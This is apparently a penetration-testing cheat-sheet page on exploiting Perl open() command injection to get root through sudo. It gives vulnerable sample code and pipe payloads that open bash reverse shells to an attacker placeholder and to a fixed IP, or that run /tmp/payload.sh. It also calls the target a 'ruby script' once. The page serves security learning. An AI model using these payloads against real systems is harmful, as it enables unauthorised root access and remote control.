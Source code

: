 # Perl

## Theory

Perl scripting is a powerful tool used by system administrators and developers to automate tasks and streamline processes on Unix-like systems. However, like any software, perl scripts can be vulnerable to various security issues, which, if exploited, can lead to privilege escalation and unauthorized access.

## Practice

### Open() Command Injection

{% tabs %}
{% tab title="Enumerate" %}
Assume the ruby script can be executed as root with sudo rights. If it use the `open()` method and we controll its input, then the script is vulnerable to arbitrary code execution.

```bash
sudo -l
    (root): /usr/bin/perl open.pl
```

Check if we have control over the input of the vulnerable function
```perl
my $file = <>;
open(FH, $file);
while (my $line = <FH>) {
  print($line);
}
```
{% endtab %}

{% tab title="Exploit" %}
If we controll some variables passed to this vulnerables functions, we can inject arbitrary code.
here is an example of a malicious payloads passed to the `open()` function:

```bash
|bash -c 'bash -i >& /dev/tcp/<ATTACKING_IP>/9001 0>&1'
bash -c 'bash -i >& /dev/tcp/10.10.14.12/9001 0>&1'|
|/tmp/payload.sh
```

{% hint style="info" %}
The `|` is a built in functionality used to execute the file when opening it. The file must be executable.
{% endhint}

{% endtab %}
{% endtabs %}


## References

{% embed url="https://www.youtube.com/watch?v=X5hVEuWmehk" %}